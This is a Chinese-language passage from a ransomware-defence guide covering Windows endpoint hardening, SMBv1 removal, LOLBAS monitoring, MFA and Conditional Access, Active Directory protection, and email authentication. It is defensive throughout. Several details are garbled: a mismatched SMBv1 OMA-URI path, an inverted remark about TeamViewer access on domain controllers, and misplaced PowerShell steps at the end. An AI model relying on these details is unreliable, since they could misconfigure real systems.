

图 4.14 – Endpoint Manager 中的 PowerShell 配置

这可确保使用 * 作为通配符记录所有模块，并且 PowerShell 将监控脚本块并将执行策略设置为仅允许签名脚本。

应注意，启用仅签名脚本可能会导致许多组件停止工作，因为并非所有供应商都会对其 PowerShell 模块进行签名。

## SMB 协议

SMB 协议也曾在勒索软件攻击中使用，其中利用了协议旧版本中的漏洞来获取访问权限。

这尤其适用于 SMB v1，微软希望完全将其移除。在 Windows 11（以及从 Windows 10 版本 1709 起）中，它默认处于禁用状态，但仍可通过添加/删除功能进行安装。

然而，它仍存在于旧版本的 Windows 上；因此应将其卸载。您可以通过使用 Windows PowerShell 运行以下命令来检查该功能是否存在：

```
Get-WindowsOptionalFeature -Online -FeatureName SMB1Protocol
```

此外，您可以运行以下命令从操作系统中禁用该功能：

```
Disable-WindowsOptionalFeature -Online -FeatureName SMB1Protocol
```

当然，您可能拥有不支持较新版本的老旧文件服务器或 NAS 服务，但微软提供了大量文档和故障排除提示，可在此处阅读：https://docs.microsoft.com/en-us/windows-server/storage/file-server/troubleshoot/smbv1-not-installed-by-default-in-windows。

关于使用 Endpoint Manager 等服务集中禁用 SMBv1，这可通过自定义 OMA-URI 配置完成，因为我们目前没有 UI 选项。这是通过使用 MSSecurityGuide/ConfigureSMBv1ClientDriver OMA-URI（仅适用于 Windows 10 和 Windows 11 操作系统）完成的。

在 Intune 中部署自定义 OMA-URI 设置是通过端点门户完成的。在 Devices | Configuration Profiles | Create Profile 下，选择 Profile type 下的 Templates，然后选择 Custom，如下图所示。然后单击 Create：



图 4.15 – Intune 中的自定义配置设置

这将打开自定义配置文件向导，允许我们定义要添加的设置。为此配置配置文件提供一个名称，例如 SMBClientsettings，然后转到 Configuration settings 部分并单击 Add。

然后在不同的对话框下输入以下内容：

- **Name:** ConfigureSMBV1ClientDriver
- **OMA-URI:** ./Vendor/MSFT/Policy/Config/MSSecurityGuide/ConfigureSMBv1Server
- **Data type:** String
- **Value:** <enabled/>
  <data id="Pol_SecGuide_SMB1ClientDriver" value="4"/>

现在，单击 **Save | Next**。然后，我们需要定义一个分配组。这是指我们旨在应用 OMA-URI 设置的机器组。然而，禁用 SMBv1 应在基础设施内的所有机器上执行。它应应用于所有设备，可通过使用 **Add all devices** 选项完成。

这将在此策略适用的操作系统上禁用 SMBv1 客户端驱动程序。应注意，它仅适用于注册到 Endpoint Manager 的设备；未由 Endpoint Manager 管理的服务器应手动操作。这也是为了确保环境中没有依赖旧 SMB 版本的遗留设备或服务。

## LOLBAS

**LOLBAS** 是 **Living Off the Land Binaries and Scripts** 的缩写，指非恶意性质且本地于操作系统的二进制文件。通常，这些可能是 Microsoft 签名的二进制文件，例如 certutil，或诸如 WMIC 之类的功能，可用于各种攻击。

您可以在 https://lolbas-project.github.io/ 上找到 LOLBAS 二进制文件的更新列表。

挑战在于防御这些二进制文件在攻击中的被利用，因为其中许多二进制文件是操作系统的核心部分。一件重要的事情是监控这些二进制文件在我们端点上的使用情况，这可通过几种方法完成。

第一个选项是使用 Sysmon，它是 Microsoft Sysinternals 套件的一部分。Sysmon 的问题在于我们需要定义要监控哪些二进制文件，这可能需要花费大量时间。幸运的是，有人创建了一个预定义模板用于 Sysmon，可监控所有这些二进制文件，可从 https://github.com/SwiftOnSecurity/sysmon-config 下载。

此外，您需要从 https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon 下载 Sysmon，并使用以下命令与 XML 文件一起运行：

```
sysmon.exe -accepteula -i sysmonconfig-export.xml
```


然后，Sysmon 将开始监视这些更改，并将它们报告到 Windows 事件查看器中的“应用程序和服务 | Microsoft | Windows | Sysmon | 操作”下。

然后，可以使用集中式日志服务（如 Azure Log Analytics 配合 Microsoft Sentinel，或 ELK 或 Graylog 等第三方工具）收集这些日志。这使我们能够监视这些二进制文件的使用情况。我倾向于使用这种方法从端点收集日志，并结合 Sentinel 中的分析规则来监视端点上这些二进制文件的使用情况。

第二种选择是使用 EDR 工具，例如 Microsoft Defender for Endpoint，它也会收集端点上所有进程的使用情况，然后你可以为此定义自定义监控规则。这需要 Microsoft E5 许可证才能使用。

此外，我们可以使用 Kusto 查询来查找这些 LOLBAS 可执行文件的使用情况，查询示例如下：

```
DeviceProcessEvents
| where Timestamp > ago(7d)
and InitiatingProcessFileName =~ 'mshta.exe'
```

上述查询查看 Microsoft Defender for Endpoint 中的 DeviceProcessEvents 表。DeviceProcessEvents 表存储了端点上运行过的所有进程的信息。这使我们能够列出所有 LOLBAS 可执行文件，甚至制定自定义检测规则。

## 默认应用程序

最容易进行的自定义操作之一是更改端点上的默认文件关联。例如，HTML 应用程序和 JavaScript 文件默认情况下会在 Web 浏览器中打开。这些文件可能被用来传递恶意软件，因此一个简单的修复方法是确保这些类型的文件默认不在浏览器中打开（因为浏览器会在系统上下文中运行代码），而是使用记事本打开。

我们应该更改文件类型关联的一些文件包括以下这些：

- .bat、.hta、.js、.jse、.jsc、.sct、.slk、.vb、.vbe、.vbs、.wsc、.wsf 和 .wsh

如果使用 Intune，没有直接更改此设置的直接方法。首先，你需要一台参考计算机，在其中定义这些文件类型应设置为使用记事本打开。然后，你需要使用以下命令导出该文件类型关联：

```
Dism /Online /Export-DefaultAppAssociations:"<pathname/filename.xml>"
```

然后，打开 XML 文件并复制其内容。接下来，访问 https://www.base64encode.org/ ，将内容粘贴进去，然后点击“Encode”按钮。

接下来，我们需要部署一个自定义 OMA-URI 配置。这是通过端点门户完成的，在 **设备 | 配置文件 | 创建配置文件** 下进行。在 **配置文件类型** 下选择 **模板**，然后从列表中选择 **自定义**，点击 **创建**。然后，如前面的示例一样，我们需要在 **配置设置** 下定义自定义设置。在这里，点击 **添加**，并在 **OMA-URI 设置** 下添加以下内容：

- **名称：** DefaultAssociationsConfiguration
- **OMA-URI：** ./Vendor/MSFT/Policy/Config/ApplicationDefaults/DefaultAssociationsConfiguration
- **值：** Base64 编码值

它应该类似于以下截图：



图 4.16 – Endpoint Manager 中的默认文件关联

端点策略更新后，应该会反映关联的文件类型。需要注意的是，这并不是一份详尽的安全设置列表，你可以在端点上配置和使用这些设置来提供更高级别的安全性。

我还想推荐一些其他文章和博客文章，你可以在其中阅读有关其他安全措施的更多内容，例如 https://adsecurity.org/?p=3299 。

## 保护用户身份

到目前为止，本章的重点一直是保护端点，端点通常是勒索软件攻击的起点。那么，如果端点仍然被攻破怎么办？我们也需要采取防护措施，确保我们的账户或凭据不会被攻击者用于在网络中进行横向移动。

另一个部分是确保我们使用的外部服务也受多重身份验证保护，以确保攻击者无法通过暴力攻击或简单的凭据注入来访问我们的服务。

最后，我们还将研究如何保护我们的 AD 域免受已知攻击。

微软之前曾表示，如果公司实施了**多重身份验证（MFA）**，99.9% 的基于身份的攻击都可以避免。因此，我们需要研究的第一件事是如何在我们的服务中实施通用的 MFA 服务。

需要注意的是，在以下示例中，我将使用 Azure MFA 和附加的 Azure AD 服务为服务提供 MFA，这要求你至少拥有 Azure AD P1 许可证才能使用该功能。

大多数公司都混合使用本地部署和基于云的服务，并且有不同的身份集成点，这可能使得为所有不同服务使用同一个 MFA 提供商有点困难。我看到的更常见的实施方案之一是公司拥有服务，如下面的截图所示：



图 4.17 – 服务的 MFA 配置

例如，Office 365 直接与 Azure AD 集成，其他 SaaS 服务通常也支持 Azure AD 进行身份集成。

然后，我们还有本地部署的服务，例如 VPN 网关、Citrix 或基于 VMware 的 VDI 服务，或其他网络应用程序，我们需要以安全的方式通过 MFA 向最终用户提供这些服务。

使用 Azure AD 原生集成（如 SAML）的云服务意味着身份验证将在 Azure AD 中发生。因此，我们可以使用 MFA 服务——条件访问——来确保安全身份验证。

对于可能不直接支持 Azure AD 的本地资源，我们有几种选择。例如，如果我们有支持 RADIUS 的本地资源（大多数基于网络的服务都支持），我们可以使用一个名为 Windows NPS Extension for Azure MFA 的组件。这是一个软件组件，你将其安装在运行 NPS 的 Windows Server 上，然后它将充当 RADIUS 服务器，供与基于网络设备（如 Citrix NetScaler、Palo Alto VPN 等）集成的其他组件使用。

该服务也可以与使用 NPS 扩展的本地 RDS 网关部署一起使用。我不打算在这里介绍 NPS 扩展的安装，但你可以在 `https://docs.microsoft.com/en-us/azure/active-directory/authentication/how-to-mfa-nps-extension` 找到 Microsoft 关于如何设置它的文档。

请注意，使用 NPS 扩展通过 RADIUS 处理 MFA 提示并不支持条件访问提供的各种安全机制。为了确保与 Azure AD 及其安全机制的无缝集成，请确保所有实施的服务（无论是基于 Web、基于网络还是 VDI 服务）至少支持 SAML。

例如，以下是一个 HP Aruba 与 Azure AD 集成以实现 SAML SSO 的示例：`https://www.arubanetworks.com/techdocs/central/latest/content/nms/policy/ca-azure.htm`。

一旦你拥有与 Azure AD 集成的应用程序，就可以使用条件访问规则来定义在允许用户访问应用程序或服务之前需要满足的条件。

因此，让我们配置一个示例条件访问规则，要求所有用户使用 MFA 登录 Office 365。需要注意的是，条件访问要求你的组织启用 Azure AD P1 许可证，并且你拥有足够的权限来配置策略。

登录 Azure 门户，转到 **Azure Active Directory | 安全性** 选项卡，然后选择 **条件访问**。微软现在提供了预定义模板，我们可以使用这些模板更轻松地配置 MFA。但是，对于此示例，我们将使用默认向导。

点击 **新策略**，然后选择 **创建新策略**。

在每个条件访问中，我们有一组可以定义的分配和访问控制机制：

+   - **用户或工作负载标识** – 这允许我们定义此策略应应用于谁。可以是用户或组，也可以是作为服务主体的工作负载标识。此外，我们可以定义排除规则，例如规定某规则应应用于除某些用户之外的所有用户。
+   - **云应用或操作** – 这允许我们定义此策略应应用于哪个应用程序或操作。例如，应用程序可以是 Office 365，也可以是用户操作，例如将设备加入 Azure AD。
+   - **条件** – 这包含多组我们可以定义的属性，例如用户风险、登录风险、设备平台、位置、客户端应用和设备筛选器。一个示例可能是允许低风险用户从特定位置的基于 Windows 的设备登录。
+   - **授予** – 在前面的部分中，我们定义了用户/组、服务或应用程序，以及需要满足的条件。现在我们需要确定，如果他们满足要求，需要采取何种操作来授予其访问权限。在这里，我们也有一系列可以定义的不同设置：
+     - 要求进行 MFA
+     - 要求设备标记为合规
+     - 要求使用混合 Azure AD 加入设备
+     - 要求使用已批准的客户端应用
+     - 要求使用应用保护策略
+     - 要求更改密码
+   我们可以定义对于正在登录的用户，是要启用所有这些控制还是仅启用其中一个选定控制。
+   - **会话** – 这旨在控制用户与其登录的服务或应用程序之间的实际会话。在这里，我们可以定义以下内容：
+     - 使用应用强制限制
+     - 使用条件访问应用控制
+     - 登录频率
+     - 持久性浏览器会话
+     - 自定义持续访问评估
+     - 禁用弹性默认值
+现在，让我们尝试直观地了解一个策略可能的样子：



图 4.18 – 条件访问策略概览

图 4.17 展示了一个策略的可视化示例：一位名为 John 的用户正尝试访问 Office 365。我们有一个预定义的条件访问策略，适用于所有尝试登录 Office 365 的用户。在这里，对于试图登录的用户，我们有两条标准：要求使用 MFA，并且要求设备在合规设置方面被标记为合规，这些合规设置来自 Intune。设备合规性是一个重要方面，因为我们不希望已受损的端点登录到我们的 Office 365 环境中。

需要注意的是，对于较新的 Azure AD 租户，Microsoft 已自动启用一项名为安全默认值的功能，这是一组自动强制实施的基本安全机制。在开始使用条件访问策略之前，需要禁用此功能。可以通过在门户中进入 Azure Active Directory 菜单，然后进入“属性 | 管理安全默认值”，并将“启用安全默认值”选项设置为“否”来完成此操作。

当我们为租户创建并启用此策略后，用户的登录过程将如下图所示：



图 4.19 – 为用户配置了 MFA

这将经历为用户设置 MFA 的过程。默认情况下，它会提供一个设置向导，用于使用 Microsoft MFA 验证器应用，或使用手机通过基于短信的一次性密码（OTP）进行验证。

作为租户管理员，我们还可以定义在初始注册过程中，我们希望用户可以使用哪些类型的 MFA 机制。这可以通过进入 Azure AD | 安全 | MFA 菜单，并单击“其他基于云的 MFA 设置”选项来自定义，这会将你重定向到一个新门户。在这里，你可以选择在底部定义身份验证方法，例如：

+   - 呼叫电话
+   - 向电话发送短信
+   - 通过移动应用发送通知
+   - 来自移动应用或硬件令牌的验证码

如果我们只启用了最后两个选项，最终用户将需要使用软件应用来启用 MFA 身份验证才能登录。

此外，需要注意的是，Microsoft 支持使用 FIDO2 安全密钥对 Azure AD 进行身份验证。这允许通过设备上的物理密钥进行 MFA 身份验证，而无需使用 MFA 应用或 OTP 密钥。

自 2022 年 2 月 27 日起，Microsoft 开始在 Azure MFA 上强制实施数字匹配，以减少 MFA 疲劳攻击的数量。这意味着当你想要进行身份验证时，需要在验证设备上输入你在屏幕上看到的数字。

这还带来了一些额外的好处，因为它不需要移动设备来处理 MFA 过程。其次，它不易受到网络钓鱼攻击。

现在，本书中我们尚未讨论的一些功能与 Microsoft Defender for Cloud Apps 和条件访问应用控制的使用有关。一项名为**会话应用控制**的功能允许我们通过 Microsoft 提供的代理组件为某些用户或特定应用程序路由 Web 流量。

本书中我不再深入介绍更多细节，但这是一项可以使用条件访问来配置的功能。你可以在 `https://learn.microsoft.com/en-us/defender-cloud-apps/proxy-intro-aad` 阅读有关该功能的更多信息。

## 保护 Active Directory 安全

到目前为止，我们已经研究了为 VPN、RDP 和 VDI 服务以及最后的 Azure AD 集成服务等外部服务设置 MFA。

然而，对于集成到 Active Directory 域中的常规服务（例如文件服务、打印服务，或从 Windows 端点实际登录 Active Directory 的过程），没有内置的 MFA 服务或机制。因此，如果攻击者设法破坏了连接到 Active Directory 的端点，他们就可以使用该端点访问文件共享等内容，而无需任何 MFA。

有一些第三方供应商提供基于 Windows 和 Active Directory 的 MFA 服务，例如 AuthLite。然而，保护 Active Directory 的主要部分如下所列：

+   - 确保域控制器（或其他不需要直接互联网访问的内部服务器）无法直接访问互联网；这可以确保服务器可以与 TeamViewer 或 Anydesk 等已知工具结合使用，而勒索软件运营商经常使用这些工具。
+   
+   - 确保默认禁用非关键服务。你可以阅读 Microsoft 关于应默认禁用哪些服务的建议列表：`https://docs.microsoft.com/en-us/windows-server/security/windows-services/security-guidelines-for-disabling-system-services-in-windows-server`。
+   
+   - 确保仅允许从受控系统（例如安全管理主机和已批准的安全帐户）对域控制器进行 RDP 访问。这需要启用防火墙规则，以确保仅允许来自已批准主机的 RDP，并使用组策略拒绝管理员组以外的其他组的登录。这是**计算机配置 | Windows 设置 | 安全设置 | 本地策略 | 用户权限分配**下的组策略设置。在其中找到**通过远程桌面服务拒绝登录**设置。

+   - 我们在 Active Directory 中还有另一项功能，称为**基于时间的组成员身份**。此功能默认未启用，因为它要求林功能级别为 2016。要启用该功能，你需要运行以下命令：

```
Enable-ADOptionalFeature 'Privileged Access Management Feature' -Scope ForestOrConfigurationSet -Target forest.com
```

然后，我们可以使用以下命令将成员临时添加到组中 15 分钟：

```
Add-ADGroupMember -Identity 'Domain Admins' -Members 'peter' -MemberTimeToLive (New-TimeSpan -Minutes 15)
```

这对于确保我们使用最小权限访问权限也非常有用。

+   - 对于在 Azure 中运行虚拟基础结构的基于 Azure 的部署，我们还可以选择使用一项名为**Azure Bastion**的功能。这允许我们通过 Azure Web 门户登录虚拟机。Azure Bastion 支持使用 RDP 对 Windows 进行远程管理，以及使用 SSH 对 Linux 进行远程管理。需要注意的是，Azure Bastion 是一项独立服务，默认情况下不会部署。

+   - 确保管理员至少有两个帐户，一个是普通用户帐户，另一个用于管理环境的行政用途。这是为了确保即使管理员帐户或端点被入侵，也不会影响 Active Directory 域管理员帐户。

+   - 启用 LSA 保护。此设置适用于所有 Windows 操作系统，确保无法将调试器附加到 LSASS 进程，并阻止 Mimikatz 等常见工具访问该进程。你可以在 https://docs.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection 阅读有关如何启用此功能的更多信息。

+   - 确保在域控制器上安装关键安全修补程序。正如我在第一章提到的，一些勒索软件攻击一直在利用 Zerologon 等漏洞来获取对域控制器的访问权限。虽然该漏洞现已修复，但以后可能会出现具有相同严重性的新漏洞，因此请确保在域控制器上安装所有安全更新。

+   - 确保将 LDAP 服务器签名要求设置为“要求签名”。这将确保攻击者无法使用 KrbRelayUp 等权限提升工具。Microsoft 在 https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/domain-controller-ldap-server-signing-requirements 对此进行了更详细的描述。

此外，如果你拥有相应许可证，请考虑实施 Microsoft Defender for Identity，它提供基于云的安全服务来监视 Active Directory。此服务会检查事件和网络流量，以检测异常的用户行为或针对域控制器的机器流量。


它通过在域控制器上安装一个轻量级代理，并监控该处生成的所有网络流量和事件来实现这一点。在这里，你还可以找到可用的不同内置检测机制和警报规则的列表：https://learn.microsoft.com/en-us/defender-for-identity/alerts-overview。

Defender for Identity 的一大优势在于它能够检测诸如黄金票据、白银票据、哈希传递、票据传递以及 Kerberoasting 等攻击。

## 确保电子邮件服务安全

目前，我们已经了解了更多其他的杂项对策，以及我们可以为 Active Directory 域做些什么。最后一个方面，也可能是勒索软件最大的攻击途径，是电子邮件。

在本书中，我们将重点介绍如何保护与 Microsoft Office 365 相关的电子邮件，尽管这里讨论的许多技术和功能也适用于其他电子邮件提供商。

根据 Statista 的信息，近 3% 的员工表示他们点击了钓鱼电子邮件中发送的链接：https://www.statista.com/topics/8385/phishing/#dossierContents__outerWrapper。

虽然 3% 并不是一个很高的数字，但攻击者只需要一名泄露账户信息的员工，就能发起勒索软件攻击或在其机器上运行恶意内容。

我们看到的另一个越来越多的攻击向量是中间人对抗（Adversary-in-the-Middle，AiTM）钓鱼。AiTM 钓鱼是攻击者用来未经授权访问用户账户的一种方法，通过拦截其登录会话、捕获其密码和会话 Cookie，并冒充用户。一旦攻击者获得了用户的凭据，他们就可以访问用户的邮箱，并针对其他目标发起商业电子邮件入侵（Business Email Compromise，BEC）攻击。

一个例子是使用 evilginx，这是一个用于收集登录凭据和会话 Cookie 的中间人对抗组件。你可以在 https://github.com/kgretzky/evilginx2 找到它。

Microsoft 365 Defender 可以检测与 AiTM 钓鱼攻击及其后续操作相关的可疑活动，例如会话 Cookie 被盗以及尝试使用被盗 Cookie 访问 Exchange Online。为了提高针对类似攻击的安全级别，组织除了实施 MFA 之外，还应实施条件访问策略。这些策略可以使用与身份相关的附加因素（例如用户或组成员身份、IP 位置和设备状态）来评估登录请求。

现在，当我们查看钓鱼电子邮件时，可以看到大多数钓鱼电子邮件使用相同的基本结构，包含以下一个或多个属性：

- **通过电子邮件索要个人信息** – 例如要求提供用户名/密码或其他敏感信息。
- **表现出高度紧迫性** – 提及用户需要立即采取行动，例如确保其账户不会被锁定。
- **电子邮件中的链接会将你重定向到不熟悉的网站和域** – 虽然它们可能会重定向到一个看起来熟悉的网站，但 URL 来自不同的域。
- **未经请求的附件** – 这些可能是可执行文件或 Word 文档，其中包含恶意负载，用于初始化恶意软件引导程序。
- **电子邮件地址的变化** – 要么电子邮件非官方，要么与官方域名相比包含细微变化。这些可能是微小的更改，例如用 Microso tt.com 代替 Microsoft.com。
- **拼写或语法错误**（尤其是如果这些错误是用你的母语伪造的）– 在许多情况下，攻击者使用通用文本，然后使用谷歌翻译将电子邮件翻译给不同国家的不同收件人。

在过去几年里，攻击者还变得更加擅长伪造看似来自相同域名的电子邮件。这可以通过欺骗发件人地址来实现。或者，他们使用已知的 URL 发送恶意内容，例如 Microsoft OneDrive，或者使用知名服务如 Dropbox 或 Google Drive。此外，还有更具针对性的鱼叉式网络钓鱼（spear phishing）攻击，攻击者会向特定用户或组织发送专门的钓鱼电子邮件。

有一次，我与一位客户合作时，该客户遭到了鱼叉式网络钓鱼攻击，其 CFO（首席财务官）账户遭到入侵。该客户当时运行的是 Office 365，因此攻击者使用了预定义脚本，用于收集和下载其账户中的所有电子邮件，然后添加了自动转发脚本，将所有电子邮件转发到外部地址。

在获得访问权限几周后，攻击者对 CFO 及其通过电子邮件与其他同事互动的方式有了充分的了解。然后，攻击者利用这些信息创建了一封包含恶意负载的电子邮件，发送给财务主管，财务主管在其机器上运行了该恶意负载，从而对其基础设施发动了勒索软件攻击。

在深入细节之前，我想先介绍一下我们在电子邮件方面面临的主要攻击向量和弱点：

- 欺骗性电子邮件（更具体地说是 MAIL FROM 信息）或来自与公司域名相似的域名。
- 来自恶意域名的钓鱼电子邮件。这些域名大多数是新建的，并且仅在短期内用于钓鱼活动。
- 从已知域名（如 Office 365 或 Gmail）发送的钓鱼电子邮件。
- 包含恶意内容或指向恶意 URL 链接的钓鱼电子邮件。

总体而言，电子邮件安全的主要目标是确保我们能够验证发件人、发件人域、电子邮件正文、URL 以及任何附件。

我们还需要记住的一点是，钓鱼电子邮件可能来自任何人。我曾见过供应商或分包商遭到入侵的情况，他们的电子邮件被用来向我所在的组织发送新的钓鱼电子邮件。

然而，重要的是要理解，虽然我们可以实施许多安全机制来尝试保护最终用户免受钓鱼电子邮件的侵害，但最重要的部分是持续教育用户如何识别钓鱼电子邮件。我还见过这样一个场景：客户的合作伙伴遭到入侵，攻击者随后使用合作伙伴的合法电子邮件地址联系客户并索取信息。在那种情况下，很难设置任何安全机制，因为电子邮件的域和内容都是合法的。幸运的是，最终用户自己明白了发生了什么。

另一个可能发生的问题是，如果我们的某个用户遭到入侵并被用于发送钓鱼电子邮件或垃圾邮件，我们的电子邮件域可能会被其他电子邮件安全网关阻止或列入黑名单，以保护其客户。这可能导致未来的合法电子邮件被安全供应商阻止，直到该域被重新列入白名单。不过，大多数供应商都提供在线信誉扫描，可用于验证你的域是否已被列入黑名单，例如以下网站：

- https://www.barracudacentral.org/lookups/lookup-reputation
- https://talosintelligence.com/reputation_center
- https://check.spamhaus.org/
- https://mxtoolbox.com/

MXToolbox 可能是最有用的，因为它还允许我们检查 MX 记录、SPF 记录、DKIM 和 DMARC。此外，它还能让我们轻松检查电子邮件头，以确定电子邮件的来源。

## 保护域名

有三个主要元素可用于保护组织免受伪造电子邮件、钓鱼电子邮件和仿冒域名的攻击。它们是发件人策略框架（SPF）、域密钥识别邮件（DKIM）和基于域的消息认证、报告与一致性（DMARC）。这些功能有不同的用途：

- SPF – 这是一种机制，电子邮件服务器在收到电子邮件时可以使用它来检查发件人的电子邮件服务器是否被允许代表指定域发送电子邮件。它同时适用于发件方和收件方。在发件方，组织可以将其获准代表组织域发送电子邮件的 IP 地址，作为 DNS 条目发布到组织的 DNS 中。然后，接收电子邮件服务器可以检查据称发送该电子邮件的域的 DNS 记录，并验证发送服务器的 IP 地址是否在那里，即是否为授权发件人。


- **DKIM** – 使用 DKIM，会添加一个签名，可以确认电子邮件是以发送域所有者授权的方式发送的，并且电子邮件的相关部分未被更改。采用非对称加密在电子邮件头中作为单独的头部字段添加数字签名。用于签名的公钥随后会与发送组织的 DNS 记录一起发布。
- **DMARC** – 这基于 SPF 和/或 DKIM，并告诉我们接收方应如何处理未通过这些检查的电子邮件。此外，该标准还提供了一种报告协议，可为收件方和发件方邮件组织提供更高程度的失败邮件报告。

验证所发布的各种 DNS 记录的一个很好的工具是 MxToolbox.com，它允许您在 SPF、DKIM 和 DMARC 记录发布后，只需使用搜索菜单即可轻松扫描域。例如，您可以输入 `spf:Microsoft.com` 来获取 Microsoft 的 SPF 记录。

虽然我在这里不会过多详细介绍这些机制，但 Cisco 的这份演示文稿更详细地介绍了优缺点以及功能的工作方式：`https://www.ciscolive.com/c/dam/r/ciscolive/apjc/docs/2019/pdf/BRKSEC-1243.pdf`。

关于 Office 365，大多数这些功能都很容易实现，您可以在 `https://docs.microsoft.com/en-us/microsoft-365/security/office-365-security/use-dmarc-to-validate-email?view=o365-worldwide` 阅读更多关于这些功能实现的信息。

您可以设置 DMARC，以便从接收您域电子邮件的邮件服务器接收定期报告。我建议您定期监控收到的 DMARC 报告。然而，这需要您拥有 DMARC 报告服务。Microsoft 没有将自己的 DMARC 报告服务作为 Office 365 的一部分，但它已与 Valimail 签署了合作伙伴关系，Office 365 客户如果注册 `https://use.valimail.com/ms-dmarc-monitor.html` 即可获得免费的 DMARC 报告服务。

## 保护内容和 URL

除了在 Office 365 中实施 SPF、DMARC 和 DKIM 外，Microsoft 在 Exchange Online Protection 中还有额外的安全机制来保护用户免受钓鱼攻击。

这些功能例如如下：

- 安全附件（适用于 Exchange 和 SharePoint 与 OneDrive）
- 安全链接
- 反钓鱼保护
- 反欺骗保护

此外，Microsoft 最近推出了一项名为 **零小时自动清除 (ZAP)** 的新功能，可让您追溯检测并中和已交付给 Exchange Online 用户的有害钓鱼、垃圾邮件或恶意软件消息。您可以在 https://learn.microsoft.com/en-us/microsoft-365/security/office-365-security/zero-hour-auto-purge?view=o365-worldwide 阅读更多关于 ZAP 功能的信息。

让我们先来看看 Safe Attachments 和 Safe Links，它们适用于拥有 Office 365 E5 许可证的组织。Safe Attachments 服务使用虚拟环境在电子邮件消息交付给最终用户之前检查附件（使用爆破检测恶意内容）。该功能默认对所有最终用户启用，如果发现恶意内容，消息会自动放入隔离区。

您还拥有适用于 SharePoint、OneDrive 和 Teams 的相同功能，可以检查上传文件中是否存在恶意内容，但该功能默认未启用。该功能可使用 Microsoft PowerShell 或 Microsoft Defender 门户中的 Safe Attachments 选项启用。

如果您使用 Microsoft PowerShell，请执行以下步骤：

- 1. 使用 Exchange Online PowerShell 模块连接到 Office 365，如此处所述：https://docs.microsoft.com/en-us/powershell/exchange/connect-to-exchange-online-powershell?view=exchange-ps。
- 2. 然后，运行此 PowerShell 命令以启用 Safe Attachments：
- 3. 用户无法打开、复制或共享由 Safe Attachments 检测到的恶意文件；然而，他们仍可下载包含恶意内容的文件。您可以通过输入以下命令来禁用此功能：

```
Set-AtpPolicyForO365 -EnableATPForSPTeamsODB $true
```

```
Set-SPOTenant -DisallowInfectedFileDownload $true
```

